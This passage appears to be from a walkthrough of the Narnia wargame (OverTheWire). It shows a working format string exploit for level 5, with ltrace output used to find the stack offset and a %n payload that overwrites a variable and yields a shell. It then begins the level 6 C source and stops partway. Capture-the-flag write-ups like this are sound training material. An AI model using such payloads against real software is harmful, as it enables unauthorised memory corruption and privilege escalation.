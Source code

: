 Here we can't change the value of `i` using a simple buffer overflow since the `snprintf` function limits the number of bytes that are written to the stack. However, using a simple format string exploit we can make this function write to arbitrary memory locations. Using `ltrace` we'll first find which parameter number corresponds to our format string:

```
narnia5@melinda:/narnia$ ltrace -s 500 ./narnia5 $(python -c "print 'AAAA' + '%8\$08x'")
__libc_start_main(0x8048444, 2, -10284, 0x8048520, 0x8048590 <unfinished ...>
snprintf("AAAAffffd73c", 64, "AAAA%8$08x", 0xf7e5efc3)                                                                           = 12
printf("Change i's value from 1 -> 500. ")                                                                                       = 32
puts("No way...let me give you a hint!"Change i's value from 1 -> 500. No way...let me give you a hint!
)                                                                                         = 33
printf("buffer : [%s] (%d)\n", "AAAAffffd73c", 12buffer : [AAAAffffd73c] (12)
)                                                                               = 29
printf("i = %d (%p)\n", 1, 0xffffd72ci = 1 (0xffffd72c)
)                                                                                           = 19
+++ exited (status 0) +++
narnia5@melinda:/narnia$ ltrace -s 500 ./narnia5 $(python -c "print 'AAAA' + '%9\$08x'")
__libc_start_main(0x8048444, 2, -10284, 0x8048520, 0x8048590 <unfinished ...>
snprintf("AAAA41414141", 64, "AAAA%9$08x", 0xf7e5efc3)                                                                           = 12
printf("Change i's value from 1 -> 500. ")                                                                                       = 32
puts("No way...let me give you a hint!"Change i's value from 1 -> 500. No way...let me give you a hint!
)                                                                                         = 33
printf("buffer : [%s] (%d)\n", "AAAA41414141", 12buffer : [AAAA41414141] (12)
)                                                                               = 29
printf("i = %d (%p)\n", 1, 0xffffd72ci = 1 (0xffffd72c)
)                                                                                           = 19
+++ exited (status 0) +++
```

which is `9`. Now it's possible to use the `%n` specifier in order to write the printed number of bytes to the the variable `i`:

```
narnia5@melinda:/narnia$ ./narnia5 $(printf "\x2c\xd7\xff\xff")%496x%9\$n
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
```

Level 6:
--------

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

int main(int argc, char *argv[]){
    char b1[8], b2[8];
    int  (*fp)(char *)=(int(*)(char *))&puts, i;

    if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

    /* clear environ */
    for(i=0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));
    /* clear argz    */
    for(i=3; argv[i] != NULL; i++)
```